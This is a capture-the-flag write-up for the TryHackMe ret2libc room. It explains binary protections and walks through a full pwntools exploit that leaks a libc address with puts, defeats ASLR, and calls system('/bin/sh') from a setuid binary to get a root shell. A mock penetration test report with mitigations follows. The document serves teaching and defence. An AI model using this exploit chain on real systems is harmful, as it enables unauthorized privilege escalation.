




# ret2libc Walkthrough

This is detailed writeup for the TryHackMe room [ret2libc](https://tryhackme.com/room/ret2libc) by [0x21q](https://tryhackme.com/p/0x21q). It aims to provide more in-depth explanations so that anyone with a basic knowledge of reverse engineering shall be able to understand the following. You should be familiar with tools like `pwntools`, `gdb` and `Ghidra` (for more information see the [Tooling](#tooling) section).

## Examining the file

We first connect to the target using the ssh credentials presented to us. We first check the current directory for files.

```bash
andy@ubuntu:~$ ls -la
total 416
drwxr-xr-x 5 andy andy   4096 Sep 12  2021 .
drwxr-xr-x 3 root root   4096 Sep 12  2021 ..
-rw------- 1 andy andy      1 Sep 12  2021 .bash_history
-rw-rw-r-- 1 andy andy     44 Sep 12  2021 .bash_profile
-rw-rw-r-- 1 andy andy   3820 Sep 12  2021 .bashrc
drwx------ 3 andy andy   4096 Sep 12  2021 .cache
-rw-rw-r-- 1 andy andy     34 Sep 12  2021 .gdbinit
-rw-rw-r-- 1 andy andy 376748 Sep 12  2021 .gdbinit-gef.py
drwx------ 3 andy andy   4096 Sep 12  2021 .gnupg
drwx------ 5 andy andy   4096 Sep 12  2021 .local
-rw-r--r-- 1 andy andy      0 Sep 12  2021 .sudo_as_admin_successful
-rwsrwxr-x 1 root root   8392 Sep 12  2021 exploit_me
```

On the remote machine, we find the binary `exploit_me` which we will be exploiting in this writeup. 
We find that its `setuid` bit is set, indicated by the `x` on the right of the linux file permissions. This does mean that the binary is allowed to run with the privileges of the user that owns this file (`root` in this case). This may allow us to escalate our privileges since our current user `andy` does not have `root` privileges, which we can check by running

```bash
andy@ubuntu:~$ sudo -i
andy is not in the sudoers file.  This incident will be reported.
```

This bit will be important later on.

First, we examine the binary by executing it and analyzing the programs behavior.
```bash
andy@ubuntu:~$ ./exploit_me 
Type your name: 
hallo
Your name is: hallo
```

Let's try what happens when we input a lot of characters:
```bash
andy@ubuntu:~$ ./exploit_me 
Type your name: 
aösldfkjaslödkfjaösldkfjaölsdkjfalöskdjfalöskdjflöaskdjfölaskdjflöaksjdflökajsdf
Your name is: aösldfkjaslödkfjaösldkfjaölsdkjfalöskdjfalöskdjflöaskdjfölaskdjflöaksjdflökajsdf
Segmentation fault (core dumped)
```

The fact that we caused a segmentation fault means that binary is probably vulnerable to a buffer overflow.

A buffer overflow is a vulnerability that occurs when a program writes data to a buffer exceeding its limits and thereby overwriting of other memory locations. This usually leads to a crash of the program but can also be exploited by attackers via overwriting the return address of a function to execute malicious code or ROP chains.

Return Oriented programming (ROP) is a computer security exploit technique that allows an attacker to execute code in the presence of security defenses such as executable space protection. It leverages snippets of already present code in the binary called gadgets to construct so called ROP chains. In some cases, these can be used to execute arbitrary code.

To get more information about the file, we run the `file` command on the binary.
```bash
andy@ubuntu:~$ file exploit_me 
exploit_me: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2c771960dddc76d1e69e8f741185d232c7ee6098, not stripped

```

We find that it is a 64bit binary which is dynamically linked. We will talk more about this later on.
We also learn about the calling convention of `exploit_me`. The calling conventions basically describe how functions are called on this type of architecture. The calling conventions tells us where to put our arguments and how to structure our stack in order so successfully run a program.
For us the most important information we can infer from the calling convention is the way arguments are passed to functions. 

Using the previous command output, we can identify the calling convention as `SYSV`:

 
[Image Source](https://en.wikipedia.org/wiki/X86_calling_conventions)

This information will be important later on.

### Examining Security Measures

Now we use `pwntools` to see which protections are present in the `exploit_me`. Therefore we use `checksec`:

```bash
andy@ubuntu:~$ checksec exploit_me
[*] '/home/andy/exploit_me'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

#### RELRO: Partial RELRO (= Relocation Read-Only)
RELRO is used to prevent buffer overflows on the global offset table (GOT) which will be explained later. "Full RELRO" makes the complete GOT read-only while "Partial RELRO" allows writing to the `.got.plt` section of the GOT.

In our exploit we do not need to write to the `.got.plt` but it is a nice to have.

#### Stack canary
Stack canaries are secret, random values which are placed onto the stack just before the return address of a function. The values change with every execution of the binary and are meant to prevent buffer overflows. Before the `ret` of any function in the binary, the integrity of this functions stack canary is checked. If the canary appears to be modified, the programs execution is stopped. 

This security boundary greatly increases the complexity of buffer overflow attacks since the attackers goal usually is to overwrite the return address to jump to a malicious payload or execute a ROP chain.

In this binary, no stack canary is found. This means that there is no need for us to bypass any stack canary which makes the exploit a lot easier.

#### NX (= Non-executable stack)
NX prevents the execution of any code on the stack. This means that custom shellcode (e.g. by injecting a payload via buffer overflow) cannot be run, therefore we are using Return-Oriented-Programming (short: ROP) to run our exploit. To be precise, we are using a special technique called "ret-to-libc" to run gadgets in the shared library "libc". 

#### PIE (= position-independent executable)
The PIE security measure basically tells us which sections of the binary have ASLR (= Address Space Layout Randomization) enabled. 

In case that PIE is enabled, the address of all sections of the binary is randomized on every execution of the binary. In this case, PIE is disabled, meaning that the binary will always start from `0x400000` and is not affected by ASLR.

#### ASLR = Address Space Layout Randomization
ASLR randomizes the address of all program sections e.g. stack, heap, data, code segment and shared libraries in the memory on every execution to prevent binary exploitation.

We check if ASLR is enabled by running

```bash
andy@ubuntu:~$ cat /proc/sys/kernel/randomize_va_space
2
```

`2` is considered the most secure setting and is todays default, randomizing the stack, virtual dynamic shared object VDSO page, shared memory regions and data segments.

At first, this seems to contradict our previous investigation that PIE is enabled and the binary is not affected by ASLR. But libc, which is our target in this exploit, is indeed affected since it is a shared library.

This is a problem, because now we do not know the addresses of the functions in libc. Even with finding the randomized addresses once, the layout will change with every execution

## Finding the Offset of the Binary
As we have already seen in the previous sections, the binary is vulnerable to buffer overflow. Therefore, we need to find out exactly how many bytes one has to overwrite in order to overwrite in the return address of the function which is our goal. We call this the "offset".

To do this, let's open binary in GDB.
We can create a pattern to use for finding the offset by 

```bash
gef  pattern create
[+] Generating a pattern of 1024 bytes (n=4)
aaaabaaa[...]
[+] Saved as '$_gef0'
```
We run the binary with `r` and use the generated pattern as the input at our vulnerable point. As expected, the program crashes due to the buffer overflow and `gdb` stops the execution.
We can then use `pattern search $rsp` to let GDP search for parts of the pattern in the RSP register to find out how many bytes are needed to override the return address. 

```
gef  pattern search $rsp
[+] Searching for '$rsp'
[+] Found at offset 18 (little-endian search) likely
```

## Linking related program sections

### GOT = Global Offset Table (`.got`)
The GOT holds all the offsets of dynamically linked function inside the binary. It is filled by the linker at compile time. These offset are not the runtime memory addresses. [Source](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

Dynamically linked Functions are usually used for very common functions like "print" so they are not included in every binary that uses it, thereby reducing the file size. 

When using Full RELRO, the GOT is read-only and cannot be written to. To achieve this, the linker has to resolve all the function addresses at startup of the binary. [Source](https://www.redhat.com/de/blog/hardening-elf-binaries-using-relocation-read-only-relro)

#### GOT for the PLT (`.got.plt`)
`.got.plt` is part of the GOT and contains the target addresses for the functions whose links have already been resolved. If the targets address has not been resolved yet, it contains an address back to the `.plt` to trigger the lookup. This behavior is called "lazy binding". [Source](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

### PLT = Procedure Linkage Table (`.plt`)
The PLT is a section of stub function to return the addresses from library functions. It either
- ...returns the already linked address from the `.got.plt`.
- ...triggers the dynamic linking if the functions address has not been resolved yet.

This mapping is done by a dynamic linker (e.g. `ld.so`) whose task it is to dynamically link function of shared libraries into the binary that is using these functions.

After this, they are saved in `.got.plt` section of the program. [Source](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

## ASLR Bypass (Theory)
The basic idea of the bypass is to leak the real address of **one** libc function in order to calculate the base address of libc. The libc base address points to the start of the libc library in the whole address space. 



This allows us to calculate addresses of all functions in the libc since the offsets between functions and base address are always equal, regardless of ASLR. 



To achieve this, we can leverage functions that take pointers and return the values behind these pointers e.g. `puts`. We do this by calling `puts` with the address of a function already present in `.got.plt` which should give us the real memory address

Every time the binary is run, we can recalculate the base address of libc which allows us to use library functions. 

## Analyzing the binary in Ghidra
We use Ghidra to disassemble and decompile the binary file. For this we need to copy the binary file to our machine. Do this by starting a python server and using `wget` to get the file

We first look at the decompiled version of the `main` function to get a feeling of the general behavior of the function

```c
undefined8 main(void)

{
  char local_12 [10];
  
  setuid(0);
  puts("Type your name: ");
  gets(local_12);
  printf("Your name is: %s\n",local_12);
  return 0;
}
```
We see that the function is very simple. The obvious vulnerable function seems to be `gets()`. 

`gets()` is a function which reads a string from `stdin` and stores it in a buffer.
A look at the manpage of `gets()` tell us to `Never  use gets()` since it does not perform any checking on the input length and is therefore sincerely vulnerable to a lot of attacks.

We notice that the buffer `local_12` has a size of `10` bytes which is smaller than our calculated offset. This is due to additional stack contents that are between the beginning of `local_12` and the return address.

Another interesting part of the program is the `setuid(0)` function.

According to the man page, `setuid()` sets the effective `uid` of the current calling process (e.g. the `exploit_me` process in this case). In case a privileged process is calling `setuid()`, the real `uid` is also set. 

The effective `uid` is mostly used to temporarily change privileges of a program. Setting the real `uid` however, is irreversible for the process.

The value `0` is the `uid` of the `root` user (e.g. the user which has unlimited privileges on linux systems). By setting the value to `0` the process insures to run with full privileges. 

Usually, the process gains the privileges of the calling user (in this case `andy`) and is only able to reduce its privileges, but as we found out earlier, the executable does have the `setuid` bit set which means that it automatically runs with `root` privileges regardless of the calling users rights.

It is important for us that `setuid` is called and not `seteuid` since the latter only sets the effective `uid` of the process even when calling with `root` privileges. This is critical since we are trying to execute a shell using the string `/bin/sh` from the libc. The catch is that `sh` usually attempts to reset the effective `uid` of a process to the real `uid` which would therefore only give a non-privileged shell. But since we change the real `uid` by `setuid`, we do not have to worry about this.

Obviously, it is a very lucky coincidence that the program has the `setuid` bit set in addition to calling `setuid(0)`. This just simplifies some stuff for the sake of learning ROP.

Now we will look into the already mentioned section `.got.plt`:
```
                             //
                             // .got.plt 
                             // SHT_PROGBITS  [0x601000 - 0x601037]
                             // ram:00601000-ram:00601037
                             //
                             __DT_PLTGOT                                     XREF[2]:     00600ef8(*), 
                             _GLOBAL_OFFSET_TABLE_                                        _elfSectionHeaders::00000590(*)  
        00601000 20 0e 60        addr       _DYNAMIC
                 00 00 00 
                 00 00
                             PTR_00601008                                    XREF[1]:     FUN_00400490:00400490(R)  
        00601008 00 00 00        addr       00000000
                 00 00 00 
                 00 00
                             PTR_00601010                                    XREF[1]:     FUN_00400490:00400496  
        00601010 00 00 00        addr       00000000
                 00 00 00 
                 00 00
                             PTR_puts_00601018                               XREF[1]:     puts:004004a0  
        00601018 00 20 60        addr       <EXTERNAL>::puts                                 = ??
                 00 00 00 
                 00 00
                             PTR_printf_00601020                             XREF[1]:     printf:004004b0  
        00601020 08 20 60        addr       <EXTERNAL>::printf                               = ??
                 00 00 00 
                 00 00
                             PTR_gets_00601028                               XREF[1]:     gets:004004c0  
        00601028 20 20 60        addr       <EXTERNAL>::gets                                 = ??
                 00 00 00 
                 00 00
                             DAT_00601030                                    XREF[1]:     setuid:004004d0  
        00601030 28              ??         28h    (                                         ?  ->  00602028
        00601031 20              ??         20h     
        00601032 60              ??         60h    `
        00601033 00              ??         00h
        00601034 00              ??         00h
        00601035 00              ??         00h
        00601036 00              ??         00h
        00601037 00              ??         00h
```

On the left, we can see the addresses of each entry in the `.got.plt` in the virtual memory of this binary (e.g. `00601028` for the entry regarding `gets`). These are not the addresses of the **functions** as these will be resolved during runtime as explained above.

We can clearly see that some functions (e.g. `gets` etc.) are marked as external addresses and have another address associated to them on the right (e.g. `004004c0` for `gets`). This address points to the specific stub of `gets` in the `.plt` section 

Next, we find the stub designated to `puts` in the procedure linkage table `.plt`:

```
                             **************************************************************
                             *                       THUNK FUNCTION                       *
                             **************************************************************
                             thunk int puts(char * __s)
                               Thunked-Function: <EXTERNAL>::puts
             int               EAX:4          <RETURN>
             char *            RDI:8          __s
                             <EXTERNAL>::puts                                XREF[1]:     main:004005e5(c)  
        004004a0 ff 25 72        JMP        qword ptr [-><EXTERNAL>::puts]                   int puts(char * __s)
                 0b 20 00
                             -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
        004004a6 68 00 00        PUSH       0x0
                 00 00
        004004ab e9 e0 ff        JMP        FUN_00400490                                     undefined FUN_00400490()
                 ff ff
                             -- Flow Override: CALL_RETURN (CALL_TERMINATOR)

```

We will use `gets` as the leak function and therefore its address as an argument for our `puts` we want to call.

## Creating the Exploit

Our Exploit will consist of two parts: 
1. Bypassing ASLR
2. Exploiting the binary

We will by using the python library `pwntools` to write the exploit since it provides a lot methods which make return oriented programming easier.

```python
#!/usr/bin/env python3

from pwn import *

# Specify the binary file we want to exploit
context.binary = binary = './exploit_me'

# Construct an ROP object from the binary
# pwntools provides the ROP Class to allow finding gadgets very easily 
elf = ELF(binary)
rop = ROP(elf)

# We also need the libc as a ELF object
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# The process is automatically set by the context variable above
p = process()
```

As you can see, we first set the name of the binary in the current context and create a `pwntools` `ELF` and `ROP` object from it.

We do the same for the `libc` since we need its binary to bypass the ASLR. If you do not know which version of the `libc` the is being used on your system, simply run `ldd exploit_me`.

### Bypassing ASLR
To bypass ASLR, we first create our payload. 

We already discussed the basic idea of the bypass earlier. Now we want to go in more detail.
The idea is to leverage `puts` to return the *runtime* memory address of `gets` from the `.got.plt`. It is important to note here that *calling* any of the functions which are present in the `.plt` (e.g. `puts` or `gets`) is not the challenge here. The challenge is to find the *runtime* memory address. 

We then use this address to calculate the base address of `libc` which allows us to execute arbitrary gadgets from the `libc`.

The manpage of `puts` tells us that it is getting a pointer as an argument 
```
int puts(const char *s);
puts() writes the string s and a trailing newline to stdout.
```
and writes its value to `stdout`. We will leverage this to run `puts` with the address to the `.got.plt` section for `gets` which will in return give us the *runtime* memory address of `gets`.

Our Payload consists of the following parts:
1. Padding: To skip the unnecessary parts of the stack which are allocated for our buffer, we input 18 bytes of useless data. 18 was the offset we found earlier.
```python
padding = b'A'*18 # We need padding to get to the return address
payload = padding 
```
2. We then search for the ROP Gadget `pop rdi` in order to set the argument for `puts` following the calling conventions we found earlier. 
```python
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0]) # We let pwntools search for the gadget 'pop rdi' and add the gadgets address to our payload
```
3. We now want to put the argument right above our `pop rdi` statement on the stack. The argument is the `.got.plt` address of `gets` as discussed earlier.
```python
payload += p64(elf.got.gets) # We use the .got.plt to find the dynamically linked address of gets()
```
4. After this is executed, the arguments for `puts` are present. To call it afterwards, we put its `.plt` address on the stack. 
```python
payload += p64(elf.plt.puts) # We use the .plt to find the address of puts()
```
5. At last, we want to make sure that we rerun the `main`-function so that the program does not exit and get another chance to insert input to leverage our new knowledge about the location of the libc.
```python
payload += p64(elf.symbols.main) # We enter the address of the main function to run it for the exploit afterwards
```

Now, we have to insert the payload.
```python
p.recvline() # Receive some blabla e.g. "Enter your name"
p.sendline(payload) # Send the payload as the name
p.recvline() # Receive some blabla e.g. "Your name is..."" + some padding from above
```

After doing this, our payload is executed and the address of `gets` is printed to stdout:
```python
# Now our main function is at its end and will begin to run our ROP chain (pop gets() into $RDI -> Execute puts() -> Execute main())
leak = u64(p.recvline().strip().ljust(8,b'\0')) # The received bytes are not always of length 8, therefore we have to do some stripping and padding 
```
Here we call `strip` and `ljust` to remove newlines and add additional padding zero bytes so that the address has the correct format. 

We can use this leaked runtime address of `gets` to calculate the libc base address. Therefore, we get the offset of `gets` from the libc object from above. We the rebase our libc object so that any call to `libc.symbols.my_super_cool_function` returns the correct address for the current run, even with ASLR enabled.
```python
libc.address = leak - libc.symbols.gets 
```

### Exploiting the binary
The hard part is done. The only thing we have to do now is to create the real exploit payload. Our goal is to call `system` to get a shell using the processes root privileges.

The manpage for `system` tells us that it takes a pointer to the command to be executed as an argument (`system(const char *command);`).

1. Padding: We first add padding just like before.
```python
payload = padding
```
2. Afterwards, we set the arguments for `system` using the same `pop rdi` gadget as above:
```python
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0]) # We need an 'pop rdi' gadget in order to set an argument for system()
```
3. Now we need to put a pointer to the command on the stack. Luckily, the libc contains the string `/bin/sh`. Therefore, we can just leverage this. Note that we use the python `next` function here, since `libc.search` returns an iterator and we only need the first result. 
```python
payload += p64(next(libc.search(b'/bin/sh'))) # search() looks for the string 'bin/sh' in the virtual address space of the libc --> Thereby we do not have to put the string into memory ourselves
```
1. Now we do some stack alignment. It is not important why we need that here.
```python
payload += p64(rop.find_gadget(['ret'])[0]) # We just need this for stack alignment. It is not important why.
```
1. Finally, the arguments for `system` are set and we add the runtime address of it to the stack using our rebased libc.
```python
payload += p64(libc.symbols.system) # Get the address of the system() function using our newly set base address for the libc
```

This finalizes our payload. Now, we excute it.

```python
p.recvline() # Receive some blabla e.g. "Enter your name"
p.sendline(payload) # Send the new payload
p.recvline() # Receive some blabla e.g. "Your name is..."" + some padding from above

p.interactive() # Switch to interactive mode to enjoy the shell
```

Now, you are using your interactive shell with root privileges. Run the exploit on the target machine to elevate your privileges there.

Find the full exploit code [here](exploit.py).

## Tooling

During the process of creating the exploit, we used several tools to help us. Here is a list of the most important ones:
- Ghidra: To disassemble and decompile the binary
- pwntools: To create the exploit using python
- GDB: To understand and comprehend the binary and find the offset

### Evaluation of the Tools

- Ghidra: 
  - Ghidra is reverse engineer binaries. It provides a lot of information about the binary and its sections. It also provides a decompiler which can be very helpful to understand the code of the binary.
  - As with most reverse engineering tools, it takes some time to get used to the interface and the features of the tool. 
  - Proprietary tools like IDA Pro have more features and may allow for a faster reverse engineering process, but Ghidra is free and open source. 
- pwntools:
  - pwntools is a very powerful python library to develop exploits. It provides a lot of methods to create ROP chains and to interact with the binary. 
  - Since it is a python library, it is very easy to use and to integrate into other python scripts. 
  - It has a great documentation and a lot of examples which makes it easy to get started with the library. This highly increases the efficiency of the exploit development process.
- GDB:
  - GDB is a highly capable and extensible but complex tool to debug binaries. It provides a lot of information about the binary and its sections, but its usage takes some time to get used to.
  - In hindsight, finding the offset of the binary could have been achieved faster using pwntools.

# Penetration Test Report

In this section I want to approach this TryHackMe room as if one were a penetration tester testing a client machine. 

*Note: Normally the test scope and methodology are explained in a penetration test report. This will be omitted here for obvious reasons.*

## Executive Summary

Bengt Wegner was tasked to perform a penetration test towards the TryHackMe machine "ret2libc". 

The test was successful and several vulnerabilities were identified. The vulnerabilities on the program `exploit_me` allow an attacker to execute arbitrary code as a privileged user on the machine, thereby gaining full control over the machine. This could potentially allow the attacker to steal private data, cause a denial of service or harm the system in any other way.

## Results

During the penetration test, I have found 4 vulnerabilities on the target machine. 



The following is a detailed description of the vulnerabilities and the advise to mitigate them.

### 1. Buffer Overflow in `exploit_me`

- [CVSS:3.1 /AV:L/AC:H/PR:L/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:L/AC:H/PR:L/UI:N/S:C/C:H/I:H/A:H&version=3.1)
- Severity: 7.8 (High)

#### Description

The executable file `exploit_me` is vulnerable to a buffer overflow allowing the attacker to **execute arbitrary code** on the machine as the privileged `root` user (see Result (2.) for explanation). 

Risk: This allows the attacker to access any data on the machine e.g. sensitive data such as password hashes, user data or log files. If the machine is part of a company network, this would gain an attacker foothold in the network and may allow lateral movement between hosts.

#### Advise 

- Use safe string-operations in program code such as `fgets` or `strncpy` to restrict the number of input characters to a minimum and thereby prohibit buffer overflows. 
- Use a secure configuration following the recommendations of the following results.
- Follow secure coding practices and regularly perform security assessments.

### 2. Insecure Use of `setuid` Bit in `exploit_me`

- [CVSS:3.1 /AV:L/AC:H/PR:L/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:L/AC:H/PR:L/UI:N/S:C/C:H/I:H/A:H&version=3.1)
- Severity: 7.8 (High)

#### Description

The executable file `exploit_me` has the `setuid` bit, allowing the binary to run with the privileges of its owner `root`. In combination with the fact that any user is allowed to execute the file, it has a buffer overflow and is using `setuid(0)` in the code, this allows for a **privilege escalation**. 

Risk: Unprivileged users may act as the owners of files which have the `setuid`, thereby allowing the unauthorized reading and modification of data as well as possible privilege escalation and thereby full machine compromise.

#### Advise

- Reassess the need for the `setuid` bit usage in `exploit_me`. 
  - Remove it, if it is not needed. 
  - Otherwise enforce stricter security measures (such as the ones advised here) making sure that executable is not vulnerable to arbitrary code executions.
- Use `seteuid()` instead of `setuid()` in the code and revert the temporary change of the effective `uid` in the code at the earliest possible point. This directly prohibits the execution of programs such as `/bin/sh` as these reset the effective `uid` before execution.
- Perform regular assessment of permissions and configuration of files.

### 3. Insecure Configuration of Executable in `exploit_me`

- Severity: Medium

#### Description

The executable `exploit_me` is has several configurations which may be exploitable:

- Partial RELRO
- No PIE
- No Stack Canary

These settings significantly reduce the attack complexity, especially during the existence of buffer overflow (see result (1.)). 

Risk: This may lead to arbitrary code execution, possibly allowing the attacker to access any data on the machine e.g. sensitive data such as password hashes, user data or log files. If the machine is part of a company network, this would gain an attacker foothold in the network and may allow lateral movement between hosts.

#### Advise

- Enable all security features during the compilation process of the code, especially Stack Canary which would have made result (1.) unfeasible.
- Perform regular code reviews and penetration tests to find executables missing this configuration.

### 4. Insecure SSH Authentication (Password)

- Severity: Medium

#### Description

Vulnerabilities, Risk, Possible Impact

User `andy` is allowed to connect to the server using insecure [SSH password authentication](https://datatracker.ietf.org/doc/html/rfc4252#section-8). This allows for brute force attacks and unauthorized access to the server, especially if the password is weak.

Risk: An attacker may gain unauthorized access to the server. This may lead to data breaches, unauthorized access to sensitive data and modification of data.

#### Advise

- Use secure SSH authentication methods such as public key authentication.
  - Secure private keys with strong passphrases on the client side.
- If the need for password authentication remains, enforce strong password policies for all users.